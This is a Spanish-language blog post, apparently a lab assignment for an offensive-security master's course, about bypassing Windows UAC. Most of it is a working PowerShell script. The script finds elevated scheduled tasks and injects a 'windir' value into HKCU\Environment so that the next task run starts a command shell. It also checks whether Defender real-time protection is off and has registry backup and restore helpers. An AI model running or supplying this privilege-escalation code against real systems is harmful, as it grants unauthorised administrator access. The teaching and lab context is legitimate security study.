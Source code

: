 ﻿---
layout: post
title: "M6 - ByPass UAC PS"
date: 2024-11-17 05:25:00 
categories:
    - posts
tags:
    - Master
    - PowerShell
    - UAC
---

## Enunciado de la tarea

En esta tarea se pide hacer un bypass de UAC creando para ello un código en Powershell. Se pide:

-  Utilizar la técnica Environment Injection basándose en el artículo de Tyranid’s Lair: https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html. Se debe automatizar las siguientes partes:

    Identificar la tarea programada que es débil a una inyección de variables de entorno
    Identificar el nombre de la variable de entorno que es débil
    Crear la clave de registro adecuada para cuando se invoque la tarea programada
    Ejecutar la tarea programada y verificar que realmente el bypass de UAC ha funcionado

- En el caso de que esta técnica ya no funcione, se puede utilizar otra técnica de UACMe (siempre que vuestro script sea hecho por vosotros, hay que explicarlo en la memoria de trabajo).

- [OPCIONAL] Este punto no es obligatorio en la práctica. Busca el uso de esta técnica en herramienta automáticas como Metasploit o Empire. Si no lo encuentras y quieres probar en un laboratorio propio puedes poner un ejemplo: a través de una Shell de tipo bind o reverse logra hacer bypass de UAC utilizando dicha técnica y consiguiendo una nueva sesión ya elevada.

## Enfoque

Al ser el primer script realizado en PS, veo prácticamente todo el curso de PS de Pablo y sobre todo la MasterClass. Tiempo apremia así que me lanzo a hacer el PoC de la inyección de variable de entorno, tras consultar con Pablo pruebo sin la protección del Defender en tiempo real y ahora si funciona. Me peleo bastante con el Script y una vez que funciona le agrego 2 funciones, 1. Hacer backup cada vez que se ejecuta el script en el Desktop, 2. Restauración de Registro.

## Script

\`\`\`powershell
# Función para hacer un backup de la clave de registro
function Backup-RegistryKey {
    $desktopPath = [Environment]::GetFolderPath("Desktop")
    $backupFile = Join-Path $desktopPath "Backup_$(Get-Date -Format 'yyyyMMddHHmmss').reg"
    reg export "HKCU\Environment" $backupFile
    Write-Host "Backup realizado en: $backupFile"
}

# Función para restaurar la clave de registro desde el backup
function Restore-RegistryKey {
    $backupFile = Read-Host "Introduce la ruta completa del archivo de backup"
    $backupFile = $backupFile.Trim() # Elimina espacios al principio y al final
    if (Test-Path $backupFile) {
        cmd /c "reg import `"$backupFile`"" 2>$null
        if ($LASTEXITCODE -eq 0) {
            Write-Host "Registro restaurado correctamente desde el archivo: $backupFile"
        } else {
            Write-Warning "Hubo un problema al restaurar el registro."
        }
    } else {
        Write-Warning "Archivo no encontrado: $backupFile"
    }
}

# Función para identificar tareas vulnerables e intentar el bypass
function UACBypass {
    Write-Host "Buscando tareas programadas vulnerables a inyección de variables de entorno..."
    $tasks = Get-ScheduledTask | 
        Where-Object { $_.Principal.RunLevel -ne "Limited" -and 
                       $_.Principal.LogonType -ne "ServiceAccount" -and 
                       $_.State -ne "Disabled" -and 
                       $_.Actions[0].CimClass.CimClassName -eq "MSFT_TaskExecAction" }

    if ($tasks.Count -eq 0) {
        Write-Warning "No se encontraron tareas vulnerables."
        return
    }

    # Mostrar las tareas vulnerables
    Write-Host "Tareas vulnerables a inyección de variables de entorno:"
    $tasks | Select-Object TaskName, TaskPath | Format-Table

    # Seleccionar la primera tarea vulnerable
    $taskName = $tasks[0].TaskName
    $taskPath = $tasks[0].TaskPath
    $fullTaskPath = "$taskPath$taskName"

    # Verificar si la tarea está configurada para ejecutarse con privilegios más altos
    $task = Get-ScheduledTask -TaskName $taskName
    if ($task.Principal.RunLevel -eq "Highest") {
        Write-Host "La tarea está configurada para ejecutarse con privilegios elevados."
    } else {
        Write-Host "La tarea no está configurada para ejecutarse con privilegios elevados."
    }

    # Inyectar la variable de entorno maliciosa
    reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
    Write-Host "Variable de entorno maliciosa inyectada."

    # Ejecutar la tarea programada
    Write-Host "Ejecutando la tarea programada: $fullTaskPath"
    schtasks /Run /TN $fullTaskPath /I

    Write-Host "Si todo ha ido bien, deberías haber obtenido una shell elevada con privilegios de administrador."
}

# Menú principal
function Show-Menu {
    Write-Host "Opciones disponibles:"
    Write-Host "1. Restaurar Registro"
    Write-Host "2. Intentar Bypass de UAC"
    Write-Host "3. Salir"
}

# Script principal
function Main {
    # Comprobar Windows Defender
    if ((Get-MpPreference).DisableRealtimeMonitoring -eq $false) {
        Write-Warning "Windows Defender está habilitado en tiempo real. El bypass de UAC fallará."
        return
    }

    # Crear un backup inicial del registro
    Backup-RegistryKey

    # Mostrar menú al usuario
    while ($true) {
        Show-Menu
        $choice = Read-Host "Selecciona una opción (1/2/3)"
        switch ($choice) {
            "1" {
                Write-Host "Restaurar Registro:"
                Restore-RegistryKey
            }
            "2" {
                Write-Host "Intentando bypass de UAC..."
                UACBypass                
            }
            "3" {
                Write-Host "Saliendo del script."
                exit
            }
            default {
                Write-Warning "Opción no válida. Intenta de nuevo."
            }
        }
    }
}

# Ejecutar el script principal
Main
\`\`\`


## PoC

https://www.youtube.com/watch?v=OQbxniTdVw0


---

Máster en Seguridad Ofensiva (OSCP)

M6. ByPass UAC

Nicolás Damián Sadofschi | https://xargs.cat

"""

